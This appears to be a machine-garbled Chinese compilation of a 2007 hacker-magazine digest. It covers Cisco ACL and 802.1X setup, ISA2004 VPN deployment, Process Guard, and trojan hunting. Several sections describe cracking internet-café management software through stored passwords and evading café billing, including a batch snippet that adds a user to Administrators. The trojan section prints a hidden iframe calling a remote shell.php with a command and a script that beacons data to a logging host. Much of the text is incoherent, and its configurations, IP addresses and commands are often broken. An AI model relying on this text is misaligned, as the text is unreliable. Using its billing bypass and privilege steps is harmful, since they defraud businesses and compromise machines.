AP之间攻击是一个为了攻击的方法，例如如果一个攻击者拥有了设备，并且你的无线信号，将会连接到攻击者的（AP）中，从而建立连接。之后的事情我就多说了，这种攻击的方法是使用双向认证（即身份认证），同时用身份认证和密码，告诉学生，由于安装了无线网络上带我们了它的错误在不在，希望者们能够：`www.hacker.com` 网安全2007年版 上海出版社

# 快速动态网站

适合读者：网络爱好者
前置知识：动态转静态

建站的人都知道，使用ASP的动态网站在制作和维护上比较容易，但缺点也是动态网站的内容无法被抓取，从而减少了搜索的机会，这决定了一个静态网站。为了让我们构建的动态网站像静态网站一样被抓取，我们可以使用LinkFree把动态网站转换为静态，支持ACL版本。

## 步骤一

安装程序，并配置ACL设置（生效后重启服务器，这里再次重启）。

## 步骤二

生效后在管理中，这里右键点击修改静态网站名称，然后从弹出的菜单中选择属性，对属性进行设置，如图所示！


图1

## 步骤三

在属性对话中，我们可以创建一个名为“LinkFree”的标签，进入设置，如图所示。

## 步骤四

在LinkFree设置窗口中，点击“Enable”，因为我们使用的插件，点击后这里会出一个窗口，直接单击“Apply”即可。


图2

## 步骤五

按照我们在首页“Scheme”选择一种动态网站转换为静态首页的形式，这里共有两种方式可以选择，在首页内可以看到动态网站转换的效果，如图所示，你需要的样式后，直接单击“Activate”即可保存首页。保存首页后，点击“关闭”按钮。


图3

## 步骤六

以后我们的网站已经完全转换为静态了，“`http://www.example.com/class?id=1`”这样的动态网站，现在变成了“`http://www.example.com/class.html`”这样的静态网站。转换后我们可以使用静态网站来访问，也可以使用动态网站访问，经过一段时间后，在搜索引擎中搜索关键词，就可以看到你的网站已经被抓取了，如图所示。


图4

最后就是提示：确定样式后，尽量不要再改变，因为当我们在属性中点击“确定”后，我们的网站已经变成了一个静态的网页了，如果经常改变的话，那么搜索引擎抓取的地址就会失效，需要重新更新。

# ADMINISTRATOR CLUB

交换是在物理网络中最为关键的地方。然而对交换机的控制对于保护主和应用以及整个网络的安全都非常重要。Cisco交换机的控制提供了在交换中配置安全、ACL（Access Control List，控制列表）等方法和工具，利用它，就可以方便对区域划分进行控制。

适合读者：爱好者，网络管理员
前置知识：Cisco设备书籍

## 基于Cisco交换机实现访问控制

### 802.1X认证

在传统的网络环境中，只有物理的连接口，未授权的设备可以接入网络，或是未经授权的用户可以通过交换设备接入网络，这将引起安全威胁，许多智能网络中都会出现。对于交换控制而言，用户接入的兼容性是非常重要的，802.1X认证是解决了此的难题，目前已经通过交换二层功能来实现，实现对接入网络的控制。


实现802.1X认证由交换机来实现，然而通常倾向于控制，能够在服务器上实现。802.1X认证的本质就是一种对接入端口进行认证的方法，达到了让用户接入后进行认证的目的。

802.1X认证是如何工作的？

802.1X LAN交换协议的实现，实现了在端口上的认证。在认证过程中，认证服务器向客户端发送认证请求。客户端要响应时，客户端在端口处输入用户名和密码，首先服务器对其进行认证。如果认证失败则会向客户端要求重试，当服务器向客户端发送被信任的MAC地址在网络中进行交换，除非客户端的MAC地址在允许的数据列表中就不会交换，除非具有“来自”属性，从而确保网络的安全性。

最终通过交换机来实现802.1X认证。目前认证方法还不统一，但是可以以MAC地址或可靠性来实现，许多方法了，例如支持802.1X客户端，用户在连接后提供：

- 1. 客户端一般在用户工作上，当用户在网络上请求时，客户端连接到服务器，输入用户名和密码，跟随连接符：ANY。
- 2. 认证过程在交换机中使用，主要作用是验证用户信息，根据认证的结果来开启或关闭。
- 3. 认证业务将用户发送服务器标识来判断用户是否具有。
- 4. 安全通过访问列表来实现防火墙的功能，增强安全能力，访问列表可以在不同的端口上使用，已经在三层交换机实现了。在交换中交换中，访问列表分为标准（Standard）和扩展（Extended）。标准ACL（范围0-99）只支持源IP地址匹配，扩展ACL（范围100-199和200-299）。

### 1. 标准IP ACL的命令

```
ACCESS-LIST <number> [standard|extended] <source>
```

其中，`ACCESS-LIST number`是ACL的范围在1-99之间，可以使用这个定义的任意标识号，ACL的源地址匹配，关键字`DENY`用于访问控制来拒绝数据，最后可以匹配特定的主机或目的，或者使用`ANY`。要设置ACL，需要指定主机的IP地址：要设置哪个网络，跟随连接符：`ANY`。


### 2. 扩展ACL的命令列表

```
ACCESS-LIST list-number [DENY|PERMIT] protocol source destination wildcard
```

- `ACCESS-LIST number`是扩展ACL的关键字，范围在100-199之间，可以使用范围内的任意号码。后一个关键字是`DENY|PERMIT`用于访问控制列表允许什么的数据，包括IP关键字来描述数据，如TCP、UDP、ICMP协议等，可以选择源地址、目的地址以及通配符，或者使用用户名：我们对这个区域内配置一个策略需求：

- 1. 安全，SSH配置，部署以增强安全管理

## 局域范围VLAN访问控制（VLAN ACL）

局域范围交换访问是不可能的，VLAN ACL可以在二层或三层交换机上运行，具有扩展的范围，可以将区域划分成一个局域区域。这种扩展控制允许VLAN跨越一个交换机，或者其范围限制，使得同一个局域内不同的VLAN进行通信，VLAN可以以某种形式出现，如通过MAC地址、IP地址。VLAN控制列表允许不同的VLAN之间的互访，或者允许非VLAN访问：

作为区域的中心，路由器是核心，为了增强安全管理，使用SSH方法连接到三层交换机上，以保证传输数据的安全性，在安全方面有更好的方法。SSH（Secure Shell）是连接到路由器的方法，它使用加密传输的方法进行配置：

VLAN访问控制语句（VLAN ACL）是VLAN访问控制语句，它在局域范围内的交换机对流量进行过滤，使用此来限制流量控制列表

```
Switch(config)# crypto generate rsa

Enter modulus: 1024

Switch(config)# ip ssh

Switch(config)# no ssh
```


在配置SSH时，`crypto generate rsa`用于生成加密数据的密钥，需要加密密码，执行`ip ssh`后即可登录，之后管理员就可以不需要密码SSH登录。服务器（Server）是SSH连接到客户端的路由器或支持SSH的设备之间。

IP访问控制语句定义ACL将IP访问控制列表应用到具体接口，首先进入路由器的某个接口，如`interface Ethernet 0`，连接IP访问控制语句区域内使用了VLAN技术：

`IP ACCESS-GROUP list-number [DENY|PERMIT]`

其中，`ACCESS-LIST number`是前面定义的访问控制列表关键字，显示对流（入站或出站）交换机的数据进行检查：

- VLAN 1 数据中心（包含服务器）：192.168.1.27
- VLAN 2 网络中心：192.168.1.64
- VLAN 3 终端：192.168.1.97
- VLAN 4 办公室：192.168.1.128
- VLAN 5 财务部：192.168.1.160
- VLAN 6 路由器：192.168.1.257

出口通过`acl50`路由器内部网络，通过50连接到互联网，网络的扩容图所示


# ADMINISTRATOR CLUB

认证：如果终端处于未认证状态，用户无法访问，认证系统将提供服务。

使用相同MAC地址的终端可以控制限制在相同的端口上访问，如果被更换，则需要重新认证，这可以简化网络管理。通过切换一个MAC地址，就可以启用802.1X认证访问。802.1X就是：首先需用AAA认证，次用相同的MAC地址用AAA认证。

在多多的端口，对来说就是802.1X：这一次的在相同的端口上访问802.1X认证，并使用Radius服务用户名和密码。

## 3. 利用VLAN访问控制列表服务器和网络安全

维护单位的RADIUS服务器，采用对内和外的信息服务安全性要求较高，插件210.178.32/27允许任意私私的终端将数据发送到RADIUS。使用SMTP（邮件）和DNS的UDP数据，允许ICMP命令和告警，允许ACL访问。ACL可以在交换机上进行交换机访问。

对于内部的终端，可以通过`FastEthernet1/0-00-00-0c-76-fa-d5`（管理）来访问，允许会话，配置`FastEthernet1/2`和`2/0`:

```
access-list 101 permit tcp 210.178.32/27
access-list 101 permit udp 210.178.32/27
access-list 101 permit ip any any
access-list 101 permit icmp any any
access-list 101 permit icmp any echo
```

```
Switch(config)# interface fastethernet 1/1
Switch(config-if)# switchport port-address mac-address
Switch(config-if)# shutdown
Switch(config)# interface fastethernet 1/2
Switch(config-if)# switchport port-address mac-address
Switch(config-if)# shutdown
Switch(config)# interface vlan 2
Switch(config-if)# switchport port-authentication maximum 5
Switch(config-if)# dot1x system authenticator
Switch(config-if)# dot1x authentication-control
Switch(config-if)# dot1x authentication-control
Switch(config-if)# switchport port-control auto auto
Switch(config-if)# 在所有端口802.1X身份认证
Switch(config)# end
```

单位的终端，它可能允许任何其他终端访问不确定的网络，但是通过交换机和路由器我们可以对网络中的任何终端进行控制，或者以及我们想要管理每一个终端的连接，就是通过交换机把整个连接的具体的位置如下：

```
access-list 102 permit tcp 210.178.32/27 any
access-list 102 permit udp 210.178.32/27 any
access-list 102 permit ip 210.178.32/27 any
access-list 102 permit ip any any
```


## 小结

本文主要基于 Cisco 交换机控制技术的研究与应用，在文中介绍了对 Cisco 交换机控制的多种实现方法和技术。端口访问、802.1X 身份认证和 VLAN 访问控制其实简单，在实际的网络中，这种方法是优远的，还将复杂的路由、防火和加密，身份认证有助于实现对向控制的安全保障。

适合读者：朋友、初学者。欢迎作者。

# 会员学习成果

## 彻底破解万象

文/ [某某]VIP|fotever

最近的几天我愁去钓池，不经理...

采用的是《万象在线管理软件》和《易畅网络软件》，这就足够了。

为了“登录上网”，我准备了打象的事（这本文）

于引起的，读者可以用试法，并开始我看着尝试的选方法先在加入注册表（万能注册表是每个目录的根节点），打开“开始”菜单后发现没有“运行”一项，如图1。


这点却找不到呢，我也有些点怕电脑知识；我看着有些可怕。入口我没有注册了老了。下方的要简单直接有“害怕”：

- Outlook 2
- Internet Explorer
- Windows Media Player
- Skype 2
- Windows Live
- Windows Messenger

如图2所示。我这样可以有命令提示的，结果还让找到了`CMD`，直接进入`Regedit`，已经注册了出来，找着有些没有关于信息，经过一番搜索，我终于在`HKEY_CURRENT_USER\Software:\软件密码列表`了各种密码信息，如图3所示。


破解了密码，结果发现自己被破解密码了。直接进入设置就可以了。如图6所示。


破解的密码是被破解密码了，破解的方法是把密码改掉，这样即使被破解了，还是有一个没有密码哪一个破解好密码就是 MDS 密码的。我就在破解后设置里点击查看密码，结果很容易找到了密码，再也不用担心了，这样就不会影响到客户了，当时心里很惭责，自己不知道客户设置密码的密码存在哪里……我在注册时找到了它，如图4所示。

破解是`HKEY_LOCAL_MACHINE\SOFTWARE:\软件密码列表`，打开软件后进入`CMD`，看到都是密码，结果本身没有 Outlook 密码，我发现把密码改了，这倒没有在注册表中直接进入`C:\Options`。跳转到密码，如图5。破解了第一 Setup，然后我尝试出来的，破解后发现，我想再尝试一遍，虽然从注册表里没有任何信息，但是密码要比安全多少，但这应该是本人技术没发现漏洞，当我尝试破解的时候，就发现密码，还没进去了。就直接管理员了。

由于：时某些病毒、木马、流氓等恶意程序出现，必须警惕。恶意程序层出不穷，为了有效的保障系统，恶意程序往往自身合成，或者通过合法程序的运行，达到其最终的目的，保障系统确实重要。适合读者：网络同好者。前置要求：斩断非法进程的文/邦建


## Process Guard

The following program wants to start on your computer. If this impacts you should permit it to do. If you are unsure you should deny it from executing.

| Filename | Description | Folder | Created by | Command Line | Company | File Size |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| `explorer.exe` | Internet Explorer | `C:\program files\internet` | Administrator | `"C:\program files\internet explorer\explorer.exe"` | Microsoft Corporation | 9KB |

- Permit
- Deny

在“Settings”面板中同时勾选“Block new and changed applications”，那么除了系统的核心进程以外，事先运行的程序可以正常运行，其他的程序都无法启动，此时 Process Guard 将弹出框，如图4。此处标识的符号可用，禁止其执行。利用这一功能，如 Windows 允许程序修改设置。此外，在“Global Protection”全局面板中，Process Guard 针对 Windows 的全局功能，勾选的“Physical Memory protection”将系统的内存存储进行保护，在系统中实际是在分配内存中的，允许任何程序修改内存存储则可能带来安全漏洞。通过勾选“Block Hooks”，你可以对程序修改系统函数并阻止拦截和运行。生效“Rootkit/Service Installation”，可以阻止 Rootkit 运行，此时可以阻止程序加载驱动和服务，防止伪系统程序或驱动程序运行，从而减少漏洞对于许多恶意程序通过 Hook 方法隐藏其真实位置，这些行为具有危险性，由于这些可能会被 Process Guard 拦截 Registry, DLL Injection 等，就可以对合法函数进行保护。在“Protection Statistics”面板中显示拦截的非法修改次数，为了防止别人误改了 Process Guard 的配置信息，你可以点击“Lock”按钮，输入管理员密码：如图所示。

You can lock the ProcessGuard interface so no one can change any of your settings. Simply enter a password to lock it, and when you want to unlock it, re-enter your password.


Process Guard 处于默认状态，关键面板都打开了，如图5所示。


点击“Unlock”按钮即可解锁。

### 查看日志


在 Process Guard 界面中打开“Alert”面板，如图7所示。


在其中显示 Process Guard 的详细日志，记录了某种进程的启动动态，以及 Process Guard 对其行为的拦截。你可以选择某一条日志，在界面底部的“Application”中显示了程序的进程，进程 ID 以及对系统的修改类型等信息，点击“Allow Modify”按钮，移除 Process Guard 的限制，允许对系统进行修改，在“BLOCKED from modifying”中显示出来 Process Guard 的限制的选择，点击此处 Protection，将 Process Guard 保护起来。

### 设置 ProcessGuard 保护对象

Process Guard 的保护方法有两种，一种是保护驱动的，要启动内核组件，并对所有进程进行限制。另一种是不保护驱动的，你只需要在 ProcessGuard 中设置好对象，例如在 Process Guard 主界面中显示“Main”，如图8所示。


在“Protection Settings”中勾选“Enabled”，这将激活 Process Guard 监控功能；在“System Status”中显示“SECURE”保护，Process Guard 显示已经在运行在保护之下，“Process Guard”主界面中显示“Running”，表示 Process Guard 处于状态。默认情况下，Process Guard 对所有的进程进行保护。勾选“Execution Protection”后，当启动应用程序时，Process Guard 将默认设置为。

点击“Hide Information”后展开信息，在此处显示程序的命令行、文件大小等。如果是正常的程序，则点击“Permit”运行，病毒则点击“Deny”阻止此操作，Process Guard 按照定义的处理方式，对于熟悉的用户可以进一步查看病毒的来源，查看 Process Guard 弹出的窗口，如图3。


我们通过内核防护，技术手段是：使用恶意程序进行注入到进程中，通过内核漏洞发现通过劫持。为了防止病毒成功运行，我们需要 Process Guard 拦截。在发现漏洞时，必须点击“Deny”，只有 Process Guard 可以阻止恶意程序的运行以保证系统的防护，还能让用户清楚恶意程序的特征，让我们从根本保障安全。第2007年精华本

## 下载文件传输

`http://hacker.com` (2007) 精软件制作作者：天 * 版所有

### 名称和磁盘列表，如图1所示

在常规面板中依次输入服务器 IP、用户名和密码、域等连接信息，完成后点击“连接”。系统将出现远程对话框，提示您设置并连接成功后，计算机将开始启动。

| 名称 | 驱动器 | 文件系统 | 可用空间 | 空用空间 | 总空间 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| C | C | NTFS | 45.2 GB | 22.1 GB | 67.3 GB |
| D | D | NTFS | 120.5 GB | 80.2 GB | 200.7 GB |
| E | E | FAT32 | 20.1 GB | 10.5 GB | 30.6 GB |


如果连接后不能正常显示列表，WTP 可能会报错提示，可能是因为没有找到对应的 WTP 组件，或者可能是 WTP 版本和服务器版本不匹配导致的。

正常情况下，使用 WTP 连接到服务器后，就可以点击“连接”在服务器和客户端之间进行操作了。这样就可以直接在服务器文件中进行文件操作。在 WTP 的“设置”“Speed”下拉列表中可以设置上传和下载速度，从 1KB 到 500KB 之间选择。

在 WTP 中，你可以为不同的用户设置权限。上传文件时点击“Options”->“User Settings”，然后点击“User”->“Add..”，通过在“Choose”中选择用户组，还可以设置下述用户的最大下载速度。

- 对于使用 WTP 连接服务器，你可以设置更高级别的权限（例如：用户组）。我们可以连接后点击“Options”->“Group Permissions”，在权限窗口中，点击“Add..”，按服务器和用户，在“User and directories 列表”中选择不同的磁盘或目录，点击“Hide selected and directories”，可以设置对用户/目录的限制。该用户无法在这些磁盘中找到文件，点击“Show select drives and directories”，指定的磁盘是可见的，可以适当访问。点击“Inherit permissions from group”后用户可以使用用户组的权限。

### 使用远程桌面连接传输文件

- 使用 WTP 虽然在远程/服务器之间下载传输文件，但在某些服务器上有防火墙限制。如果 WTP 和服务器无法连接，则可以使用 Windows 自带的远程桌面连接。在连接之前，当在远程桌面连接到 XP 后，在开始菜单中输入`mst`，打开远程桌面连接窗口后，点击“选项”按钮，展开远程窗口。在本地资源选项卡中勾选“磁盘列表”，如图2所示。

### 配置，确认连接

按照提示，将服务器为 ClientTP 连接后，在服务端打开文件传输器，可以看到服务器上所有文件都在服务器的“我的电脑”中显示，如图3所示。


这样我们在远程连接中，可以十分方便地使用复制粘贴命令，或者直接在客户端和服务器之间进行文件的上传/下载，也可以直接在客户端上进行文件操作。例如使用 Windows XP 的`mst.exe`复制文件到 Windows 2003。或者在 Windows 2003 下可以使用上述方法连接 XP/服务器。

### 使用 RPC 技术传输文件

使用提供的 RDP 技术可以实现在远程/服务器之间的文件传输。使用 RDP 连接后，执行`rdclip.exe`、`nxfr.dll`、`rdp.dll`这三个文件，在服务器中：`\Windows\system32`下创建一个名为 RDP 的项（键名为系统连接），在注册表编辑器：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server\Run`中创建启动项，并设置该注册表项的值值为`rdclip.exe /d \路径`。设置完成后，重启服务器后，再次执行`rdclip.exe rdclip.exe /d \路径`将文件传输到服务器根目录后，本地磁盘目录将被映射为`X:\程序Terminal Services Client`列表中，在此过程中不需要远程连接，就可以在客户端上方便的在服务器和贴板之间使用。


## 网吧免费新思路

Windows 防护专家 / 天文登录

适合者：网吧爱好者，免费想要者
前置知识：无

最近家里没有网了，结果网吧时代也变办法了，把我的网都给办了，不过为了泡朋友的时间想要省到，我每天去网吧就挂挂泡泡打游戏了。不过过的网吧免费还是好过的，这样我的网就被卖光了，好找我买了一款防守收费的网吧软件，一个插件就不用用了。这软件的字叫“Windows 防护专家”，主要功能是呢？

的钩子编写来定位，激活解锁按钮也比较有用，比比如锁定后，不让我们点击“确定”，当我们激活后，点一下就解绑了。
限制所有运行的程序的机制，设置不关机，你就可以免费了，不过这个功能对学生，PubWin 可以免费，用这个功能限制联网收费系统还是有用，感觉差点不错。
而现在免费的机制实在太在了，大家一起来看看：

1. 先正常后，运行 Windows 防护专家，
2. 点选“特殊功能”选项，设置 10 秒后隐藏全部窗口，并自动隐藏桌面。
3. 在收费后允许连接，10 秒后设置密码被锁后密码就可以解锁了。

怎么样很，轻松的三秒钟就锁定免费上网，锁定后，这就提供了命令行提示符。如图所示：


运行期间，它不在内存里有任务运行。我们可以用 Alt+F4 直接删除掉它，这样就不会让它让我运行表格或我们组件，我们可以可以通过的“新建任务”来运行所需的程序。

我们 Windows 防护专家的优点在于“特殊功能”如图所示：


其中窗口扫描可以让我们知道隐藏的窗口类名和句，通过编写非常有用，也适合我们通过所过的


```
set off

set USERNAME=%username%

set PASSWORD=%password%

net user localgroup Administrators /add %username%

net user %username% %password%
```


我们可以看到，命令行提示符可以让我们执行`CMD`的命令，而且还带有一个PVC的权限，所有的命令都会拦截到某处去集合起来，很好用。其实我们不可以用它网吧免费，还可以可以

分析进程的程序，是否可以，选择选项卡里面的信息，比特Windows自带的任务管理器，细多如图4所示。


# ADMINISTRATOR CLUB

> 目标链接到 刘 (liuliao@hacker.com)

适合读者：网管理员、病毒杀爱好者。前置知识：无

## 病毒主动防护文/袁涛

现在面的杀毒软件和防火软件越来越多，很多时候都是基于特征码的软件，这类病毒往往有一个数据，对于查杀完全准确的来说，对于新病毒，这类软件就心有余。所以，根据病毒行为，智能微识别的主动防护软件已经此高了。它能够自动识别新病毒、蠕虫、后门、下载器等具有毒的程序，并在发现新病毒后，它能够自动提取特征，自主完成对防护。这给了我们多少好处，我们可以通过隔离一起来研究吧。安装程序简单，直接Next即可，但要注意的是必须在安装后再开始，注册后系统会自动检测并在重新要求你启动，它的功能分为四个模块，其中包括：“安全策略”、“系统分析”、“网络分析”、“日志”。安全策略，我们可以通过过滤列表来采取补丁，这里的过滤列表和Windows Update中的信息是相同的，它并不需要你服务进行身份验证，只需点击即可，如图所示。


程序通过网络类似于大家平时使用的各类规则，我们只需要允许网络，禁止数据的策略微作为一款主动防护软件，它的杀毒过程是透明的，我们无法调整它的，但是是有必要的工作。

1. 已知病毒使用已知特征扫描，继续使用未知病毒扫描。
2. 未知病毒在未使用已知特征扫描后，细微或病毒的行为动作，确定它是否有有害软件，并进行处理将其新的程序。
3. 自动提取特征确定程序为有害程序后，开始自动提取具有有害特征。
4. 自动更新提取特征后，自动更新并在再次感染时具有检测接来使用防火墙的策略，防火墙设置中包含了5条规则，分别开放访问、“禁止网络”、“禁止数据输出”、“开放本机共享”、“适用于局内访问”、“禁止本机共享


用于局域网内部用，推荐设置互联网络。这5条规则起来非常简单，可以满足大多数用户的，如图所示。远端地址字样，只要点击任何IP地址，就会自动到网络分析的相关下，我们可以更详细得知该运行状况以及详细信息，如图所示。


在系统分析的进程综合中，我们可以看到进程中，运行的路径，远程IP以及端口。如果进程中有数字，说明该进程有少数，双击后，就可以看到的网络连接，如图所示。


“远端地址”中出现的IP都在IP流量出现，我可以按照自己的需要，随时分析数据是否存在异常。端口与之类似，如图所示。系统会自动启动，一旦程序运行进入，就会注册一个程序的小虫，若用户在使用的时候就会提示错。


# ADMINISTRATOR CLUB

| 俱乐部（交流 ） | hacker@hacker.com |

适合读者：网络爱好者、管理员 前期知识

## 马：你的马还能跑吗？

哥们，都是兄弟！哥的网站被人入侵了，哥的却给帮忙实是对我的栽培，所以决定把他的马找出来。


`C:\Documents and Settings\用户\L:\Documents\Temporary Internet Files`文件夹下的文件，因为大部分是木马或运行后后发现下载下来的马就会临时文件夹我把几个文件清理干净就能发现这些马了，运行`xxx.exe`后又发现了一个`zzz.exe`如3所示：

### 晕马

首先看看被植了马的主页面，如图所示。

```html
<html>
<head>
<title>Hacked</title>
</head>
<body>
<iframe src="http://192.168.1.100/shell.php?cmd=ls" width="0" height="0" style="border:none;"></iframe>
</body>
</html>
```

图1

因为我系统被弄坏了，所以没找到木马。`Flashget.html`页面没有隐藏代码，而是加密了，结果如图2所示：

```javascript
<script>
var language = "javascript";

function onerror(error, source, line, column, error) {
  var img = new Image();
  img.src = "http://192.168.1.100/log.php?err=" + encodeURIComponent(error) + "&src=" + encodeURIComponent(source) + "&line=" + line + "&col=" + column;
}
</script>
```


图2


图3

连接`C:\Documents and Settings\用户\Local Settings\Temp\Temporary Internet Files`，在文件文件夹下发现一个`exe`文件，而在`Temporary Internet Files`下又发现一个`exe`页面文件，如图4和5所示：

`47ff2_202_2.png`

图4

图4和所示


图5


注册，微点的自动功能不能错误，因为它是按照行为来确定程序的木马是病毒的，它的目的是为了病毒、木马、虫、病毒、入侵，进程可以有，通过扫描可以快速发现的地方，并记录这些信息以便用户自动修复。微点防护是在阶段，对于所有的问题，比如某些功能的可能会异常。当病毒泛滥时，微点的运行时利用率会很大，根据做法，顶部写着信任是不病毒的木马最好还是网是的，它都是一款不可靠的马杀虫。

# ADMINISTRATOR CLUB

适合读者：网络管理员、企业架构师
前置知识：网络基础知识、VPN原理、ISA2004应用

## ISA2004应用

图/来源于TechNet 管理员对

大家好，我们又见面了，大家是否都考虑过我写的几篇关于ISA企业应用的VPN文章呢？这次我们还继续深入对ISA2004做个介绍，主要介绍它的VPN服务的。如果是企业VPN应用，那么ISA2004并不形成VPN服务器，当ISA2004已经用了之后，它就可以利用Windows 2003自带的路由和远程访问服务了。

下面我们给大家介绍ISA2004部署企业网络与VPN的部署方法。


VPN服务器的用户地址使用分析？这篇文章将来说验证你如何VPN客户端和分析。可以应用规则，请参阅图3所示。

简单吗？只要打通一个VPN就可以了，也许有人会告诉：不，VPN安全防护是不靠的。你可以连接到服务器，工具中并打开路由和远程访问，看到之后，如4所示，可以应用规则后，打开访问界面到底遇到。


这个服务是不同的，你可以再次刷新，就可以通过路由和远程访问被访问了。

## 配置VPN访问

我们首先在ISA2004的管理器中，选择“配置VPN访问”如1所示，这正是ISA2004的界面，和可能看起来是不一样的，这个不需要担心，因为我们版本是不一样的。这种企业的VPN应用，操作方法都是一样的，但是服务器的NAT和CPU的转换在没有了防火墙功能后，要实现VPN访问是不可能的。

真实的环境不需要再解释了，由于我们已经经历了类似的环境并详细讲解了，这里让大家已经对ISA2004有一定的认识，可以尝试并部署。


进入VPN配置页面，在右侧的任务栏中点击“创建地址池”，在这里是在配置VPN地址后创建IP地址的，如果不配地址就无法启动VPN服务的。如果你的ISA2004可以显示如所示，那么在这里可以使用静态地址，也可以通过配置DHCP地址。这里有一点要注意，VPN客户端的IP地址不是你使用的地址，也是VPN客户端的地址不能设置在内网中穿透，因为DMZ区域是可以使用的网段，这里具体来说，如果大家占用不用的话，我们可以在网络上运行ISA Server 2004。


到这里，你的VPN服务器设置好了，接下来就是可以用远程访问进行VPN拨号。我们首先要建立一个VPN客户端，大家都准备好本地地址了吗？差不多，不用详细的了，见图5、6和7所示。

注意，你一定要输入VPN服务器的外部IP地址，就是ISA2004的外网地址，然后点击“下一步”，直到完成，我们就可以连接了，使用这个IP进行连接。

www.hacker.com
© 2005-2008 版权所有 | 作者 刘晓磊

# ADMINISTRATOR CLUB

邮箱：filiu@hacker.com

## 服务器IP为 `10.1.1.1`，VPN建立了一个内网，这时这里有多少个ISA节点？

## 访问内网资源

- 访问 Internet：连接VPN后，可以访问Internet上的网站吗？
- 我想在工作时通过VPN连接到公司，连接后可以访问其他网站吗？
- 我想访问内网资源：连接VPN可以访问内网服务器吗？
- 我想访问Internet：连接VPN后可以访问Internet上的网站吗？

有4个外网，内网，DMZ。虽然有VPN了，在这里这里？

ISA2004是一个VPN，认为是立的VPN。


图 5

## 连VPN服务器后，我们要先干些什么？

当然了。在连接后进行访问和共享文件可以吗？在在这里，会有这样的限制吗？

## VPN连接

我想在工作时通过VPN与公司连接有什么问题？

- 访问内网资源：连接VPN可以访问内网服务器吗？
- 访问Internet：连接VPN后可以访问Internet上的网站吗？


图 6

ISA2004是否允许用户访问共享文件？

因为策略设置了允许VPN访问的防火墙规则。建立规则很简单，规则文章都写了，按照规则名字，比如首先，动作作为VPN的。我们应该设置什么样的访问规则？我们都需要打开端口，文件共享的端口是`TCP445`。打开一个端口就可以访问，在ISA2004中，Windows是不行的；至少要配置`CIFS (TCP)`而不是UDP的，图5。


图10

## VPN访问权限

VPN服务器的连接后会有什么权限？


图 7

当用VPN服务器上的用户名：可以是管理员的用户。但是现在进行连接的时候没有权限，为什么连接时没有权限呢？如图所示，这是在Windows 2000系统中。在这种情况下，VPN的用户可能没有权限，如图9所示，它通过远程访问策略拦截了，为什么不能访问呢？因为默认的远程访问策略是不允许的，所以我们必须允许VPN的权限。我们再尝试试试，有了问题就可以了，如图10所示。此时，你们的VPN客户端设置的IP地址为`10.1.1.1`。


图11

选择“下一步”，这时要设置访问地址和目的。这里注意，在我们之前设置的访问是从内到外还是从外到内？这里设置的地址是要VPN客户端的，不是。


hacker.com
黑客丛2007 第18页

# ADMINISTRATOR CLUB

为什么一定要VPN客户端？我们之前试过了。ISA2004把VPN当作一个独立的节点，那么以后VPN客户端之后我们就只需一步一步完成并应用，就可以进行网络共享了，如图12所示。至此，VPN的实现就算成功了。


图12

在大多数公司中广泛应用VPN技术，这些企业应用VPN技术不是为了简单的文件共享，而在群体中，VPN的主要目的就是业务，客户需要访问各种ERP（如供应链计划、HR人力管理）和CRM（如关系管理系统）软件，连接速度，需要通过VPN来建立一个部署。

首先针对ISA2004，在防火墙策略中加入VPN客户端，你可以通过创建新的规则来发布VPN客户端访问ERP，也可以通过创建地址对象创建新的规则允许VPN客户端访问ERP系统，以及以前创建地址规则方法。


图13

一个用于创建的识别规则，单击一下按按钮，设置好源地址，在策略中我们的ERP访问VPN如果已经在创建地址对象中设置了，单击一下在新的规则中向方的端口输入规则名称，如图14和15所示，在连接设置中选择TCP方向，向方的端口范围为`3000-3088`，这是一个多连接软件的默认端口，如果你可以更改ERP系统。


图14

## VPN部署策略

新建连接规则定义，使用内置的Internet Security & Acceleration Services。使用内置的连接规则定义，该规则允许VPN流量。新建连接规则定义选择规则，点击“下一步”。


图15

在连接中认证单击修改端口，如图16所示，可以在用户中定义特定的你所创建的规则，如图17所示。


图16

之后，的操作非常简单了，在选择中添加创建的规则，然后单击一下，直到完成防火墙规则并向外发布VPN规则。


图17

注意访问的地址和客户端，如果你的目的是访问ERP，那么你也可以这样：部署防火墙的地址，VPN客户端访问的地址如果是变化的，VPN客户端访问将是不可靠的。防火墙规则创建应用完毕后，我们可以使用VPN客户端访问内部的ERP系统，如图18和19。


图18

## 部署过程

此完成后，ISA2004 VPN的连接实现业务部署就是比较简单的，利用在防火墙规则中的`172.168.1.1`。


图19

www.hacker.com
黑客学院2007 精华制作版 上页

# ADMINISTRATOR CLUB

留言：liulu@hacker.com

## 安全隔离

首先要确保你有一个固定的IP地址，这样也可以通过域名服务建立IP地址和域名映射，但是稳定性是你要考虑的。如果没有的话就准备一台服务器了。以上就是ISA2004企业级部署的演示，接下来来看看ISA2004安全隔离连接，应该会有三个问题，是非常常见的现象。

> 提示：不要连接后就突然掉线。人在实际连接的时候遇到问题，在网络中出现流量堵，我在测试了一个星期后，我发现“流量”就是问题，很多时候重启就能解决。安全隔离就是保证安全后可以使用正常的连接。在企业网络中，其他的电脑可能被病毒或者用户没有安装Windows Update。当你通过VPN连接后，就可以确保你的电脑通过安全了。在ISA2004中做到这个功能，我们只需要配置一个策略来启用，这就让外部能够接入网络，如果没有安全策略就会被拦截，这样就可以保证VPN运行正常。配置后，VPN客户端可以从防火墙内部访问。我们需要配置RAS服务，我们按照这里步骤修改注册表，进入`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Remote Authentication Agent`。

| 名称 | 属性 |
| :--- | :--- |
| Service | `Remote Authentication Agent` |

| 名称 | 状态 |
| :--- | :--- |
| 启用 | 启用 |
| 禁用 | 禁用 |


图21

`VERSION3`这个值不需要设置为，它安全隔离中的流量可以设置。本次完成后，再设置启动策略、绑定名要配置到ISA2004接入后的一个IP，点击连接，将连接到`Program Microsoft ISA Server vpn.dll`所示。修改完注册表后，我们还需要修改ISA的设置。为了防止防火墙拦截，使用ISA的策略程序策略，并创建VPN规则文件，这一步都需要配置，但这里的设置是TCP连接。

| 站点 | 端口 |
| :--- | :--- |
| * | `7250` |


图23

# Administrator Club

被隔离的VPN客户端。对于本地的主机，当这些VPN客户端被隔离后，所有的客户端都属于ISA隔离的网络中，所以要确定是否为被隔离的VPN客户端，隔离ISA主机进行通信时确定是否符合安全要求，此目的也是为了主机了，如图4所示，接下来就是要选用隔离根据需求进行选择。


